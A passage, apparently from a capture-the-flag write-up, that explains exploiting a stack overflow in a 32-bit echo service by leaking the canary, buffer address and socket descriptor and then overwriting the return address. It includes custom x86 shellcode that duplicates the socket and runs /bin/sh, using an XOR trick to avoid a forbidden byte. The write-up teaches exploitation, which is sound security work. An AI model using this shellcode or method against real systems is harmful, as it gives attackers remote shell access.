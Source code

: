 The pointer it's jumping to is `0x8048e23` which is located at the stack address `0xbfffefcc`. Referencing our old stack dump that's located as argument #32. At this point it's just a matter of writing enough bytes to overflow, then clobbering `0x8048e23` to our own location.

##Stack cookies and shellcode location

There's 2 other places we need to be aware of to make this work. The first is the location of our dst buffer, which is thankfully on the stack at parameter #6. The second is our stack canary, which is located at argument #26. After leaking both of these it's a simple matter of clobbering RET with our shellcode location (with 12 or so bytes added to account for the "Echo: " response). We partially fix the stack cookie at the same time, but replace the final null byte with \xff, since a null byte will break our payload. The way to fix the stack cookie is with a separate payload that writes the null terminating byte from the string output into the least significant byte.

At this point things were acting /really/ weird. Things should be fine, but they weren't. strace/ltrace were throwing complete shit fits, and I would keep getting my sprintf breakpoint hit. Something was clearly borked, and what I hadn't realized was that argument #33 (the next argument after our target RET) is actually a file descriptor from the earlier `accept()` call. It was getting clobbered with the null byte at the end of our junk+cookie+junk+RET blob. After adjusting to leak that value as well (though it IS usually just 4, GDB messes with them :( ), and writing it dynamically, we now had a stable way to achieve code execution!

##Payload

I had read exploits that used pwntools before, but never tried it myself. I have to say it's quite awesome (especially the shellcraft module). Unfortunately I couldn't just call `asm(shellcraft.nop()) * 10 + asm(shellcraft.dupsh())` to have it work since `/bin/sh` has a "n" character in it! `shellcraft.dupsh()` also expects our file descriptor to be in ebp, which it wasn't, so I had to do a bit of editing :).

The two major changes in the payload are the file descriptor location, and a workaround for the `n` in `/bin/sh`.

```asm
dup_3:
    /*
      Our file descriptor is actually sitting on top of the stack at this point,
      so I just pop it into ebx
      ; mov ebx, eax
    */
    pop ebx
    push 0x3
    pop ecx
loop_4:
    dec ecx

    push 0x3f
    pop eax
    int 0x80
    jnz loop_4

/* execve("/bin/sh", 0, 0) */
    push 0x68
    push 0x732f2f2f
    /*
      This string contains a "n", so it won't work. Use XOR mask to fix it. 
      ; push 0x6e69622f
    */
    mov eax, 0x7f78733e
    xor eax, 0x11111111
    push eax

    mov ebx, esp
    xor ecx, ecx
    push 0xb
    pop eax
    cdq
```